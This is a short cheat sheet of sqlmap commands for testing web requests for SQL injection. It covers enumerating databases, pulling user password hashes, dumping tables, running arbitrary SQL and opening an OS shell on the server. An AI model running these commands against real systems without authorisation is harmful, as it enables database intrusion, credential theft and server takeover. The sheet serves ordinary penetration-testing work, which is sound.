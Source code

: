 ```yaml
---
tags: [ database ]
---
```

# Test URL and POST data and return database banner (if possible)
./sqlmap.py --url="<url>" --data="<post-data>" --banner

# Parse request data and test | request data can be obtained with burp
./sqlmap.py -r <request-file> <options>

# Fingerprint | much more information than banner
./sqlmap.py -r <request-file> --fingerprint

# Get database username, name, and hostname
./sqlmap.py -r <request-file> --current-user --current-db --hostname

# Check if user is a database admin
./sqlmap.py -r <request-file> --is-dba

# Get database users and password hashes
./sqlmap.py -r <request-file> --users --passwords

# Enumerate databases
./sqlmap.py -r <request-file> --dbs

# List tables for one database
./sqlmap.py -r <request-file> -D <db-name> --tables

# Other database commands
./sqlmap.py -r <request-file> -D <db-name> --columns
                                           --schema
                                           --count
# Enumeration flags
./sqlmap.py -r <request-file> -D <db-name>
                              -T <tbl-name>
                              -C <col-name>
                              -U <user-name>

# Extract data
./sqlmap.py -r <request-file> -D <db-name> -T <tbl-name> -C <col-name> --dump

# Execute SQL Query
./sqlmap.py -r <request-file> --sql-query="<sql-query>"

# Append/Prepend SQL Queries
./sqlmap.py -r <request-file> --prefix="<sql-query>" --suffix="<sql-query>"

# Get backdoor access to sql server | can give shell access
./sqlmap.py -r <request-file> --os-shell
